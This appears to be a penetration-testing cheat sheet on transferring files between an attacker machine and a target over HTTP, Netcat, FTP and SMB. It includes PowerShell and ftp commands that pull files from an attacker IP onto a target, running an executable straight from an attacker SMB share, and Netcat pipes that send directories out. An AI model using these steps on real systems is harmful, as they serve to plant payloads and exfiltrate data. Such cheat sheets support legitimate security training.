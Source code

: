 # File Transfer

File can either be transferred by:

* Push file to target
* Have the target to pull file back

## HTTP

**On attacker machine**:

### Apache

copy file to `/var/www/html/`

Start Apache Server

```
/etc/init.d/apache2 start
```

### Python

By running below, current directory will be accessible over HTTP

```
python -m SimpleHTTPServer [port no]
```

**On target machine**:

```text
http://your_ip_address:your_port_num/filename
```

If you only have command line access in a Windows machine, use PowerShell's WebClient object:

```text
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://[ip_address]/[file]','[file dest]')"
```

or use cmd.exe to trigger IE

```text
cd Program Files\Internet Explorer start iexplore.exe "http://ip_address/file"
```

## Netcat

### Receiving end
```
nc -l -p 1234 > out.file
```
### Sending end

```
nc -w 3 [destination] 1234 < out.file
```

For faster transfers if both sender and receiver has some basic *nix tools installed, you can compress the file during sending process,

### Receiving end

```
nc -l -p 1234 | uncompress -c | tar xvfp -
```

### Sending end

```
tar cfp - /some/dir | compress -c | nc -w 3 [destination] 1234
```

## FTP

### vsftpd/pytftpd

**On attacker machine**:

`vsftpd` or simply the `pytftpd` library

```text
apt-get install python-pyftpdlib
python -m pyftpdlib -p [port_num]
```

default port is 2121

`-w` can grant the user write access

### Metasploit

Metasploit has an ftp module `auxiliary/server/ftp`

```text
use auxiliary/server/ftp
set FTPROOT /root/shells
exploit
```

Can be kill with:

```
jobs -k [id]
```
**On target machine**:

Type it into your cmd.exe

```text
echo open your_ip_address > ftp_commands.txt  
echo your_username >> ftp_commands.txt  
echo your_password >> ftp_commands.txt  
echo binary >> ftp_commands.txt  
echo get your_file >> ftp_commands.txt  
echo bye >> ftp_commands.txt  
ftp -s:ftp_commands.txt
```

## SMB

**On attacker machine**:

```
smbserver.py shareName sharePath 
```

`(e.g. smbserver.py TMP /tmp)`

Check with smbclient to confirm we have got an SMB share up and running

> `smbclient -L [attack machine ip address] --no-pass`

**On target machine**:

> `net view \\\\[attack machine ip address]`

Copy file `copy \\[attack machine ip address]\Sharepath .`

Or execute the file directly from SMB `\\[attack machine ip address]\file.exe`

### Windows to Windows

Create a new local file share:

`NET SHARE work=C:\docs\work /REMARK:"work share" /CACHE:No`

Delete the share:

`NET SHARE work /DELETE`

List the File/Printer shares on a remote computer:

`NET VIEW \\ComputerName`

List all the shares in the domain:

`NET VIEW /DOMAIN`

Join a file share \(Drive MAP\):

`NET USE [driveletter:] \\ComputerName\ShareName`

\(replace \[driveletter:\] with the drive letter you want to assign\).

### Linux to Windows

Backup and modify `/etc/samba/smb.conf`

Add the following configuration

```text
[sharedname]
path = [path to share]
available  = yes
valid users = [current user]
read only = no
browsable = yes
public = yes
writable = yes
```

Add user and password `smbpasswd -a [current user]`

List user `pdbedit -L`

Restart SMB service `service smb restart`

or

`sudo /etc/init.d/samba restart`

Access the IP address of the computer from Windows

